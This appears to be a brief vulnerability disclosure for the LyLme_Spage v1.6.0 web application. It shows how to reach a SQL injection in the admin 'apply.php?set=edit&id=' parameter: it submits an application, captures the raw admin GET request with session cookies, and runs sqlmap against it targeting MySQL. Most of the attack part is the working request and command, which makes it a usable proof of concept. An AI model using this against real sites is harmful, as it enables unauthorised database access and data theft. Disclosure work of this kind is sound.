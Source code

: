# LyLme_Spage_2
https://gitee.com/lylme/lylme_spage/tree/v1.6.0

![image](https://github.com/user-attachments/assets/d9b87388-6f4a-4e07-ac5d-7b77fc320dbf)



首先在http://ip/apply/下发起一个申请
Start by making an application at http://ip/apply/

![image](https://github.com/user-attachments/assets/247ddda6-d426-47ae-9d1f-60725ccd6b3e)

后台点击收录管理的编辑功能
Background click included management editing function
![image](https://github.com/user-attachments/assets/cba8704f-7f66-462f-a570-bb3a7f7f7f72)

GET /admin/apply.php?set=edit&id=* HTTP/1.1
Host: 127.0.0.1:9998
sec-ch-ua: "Not=A?Brand";v="99", "Chromium";v="118"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9998/admin/apply.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_token=90d7M%2F3WDbztaftquNBfPRbNjPw3LxjDKcUaDvO7bEYpzHRRwwPyLNeT0td94g7p9w%2FXL0yfP9yV79VFuXdofmtlOg; BRPcM_admin_username=6876tBBUp5geSxCQN5sA1iKcxHKWIYz21qWkazG8S7yeLg; BRPcM_siteid=d932okj60sk0B9TkqM1wpAl87Z7cVJGoQaDRLspG; BRPcM_userid=f73dmCvThxA-y9q6p7E4mTCO1Yu7GN2Md5i5VRay; BRPcM_admin_email=d4adXnvKveOWi9fo2VEdwAuaB8F34r9gqTCJ-An7Vr_H5Pge; BRPcM_sys_lang=95b7Z8OobH3UEBHG6reEsIAHxg3si_OotB0pwqWUH0FmZg; JSESSIONID=ZCgZNzqIkXhtv3WhzYFl5fjxcB9DdC4id5mxh0O1; PHPSESSID=qkk1eisjp2p17ce7tll9tfq6vb; admin_token=c5f7pAlNpu4s4xQllufPvMzOK6dR6J2Z0TkaFIgtOFzg1VKSltZq614l0Nc7mTL2SmmcluK6%2FUhwXZFDZ4UROQNqGg
Connection: close

python sqlmap.py -r D:\TestData\sql6.txt --dbms mysql
![image](https://github.com/user-attachments/assets/c74bd6a2-aeb0-4f1a-8b0b-313db05965e0)


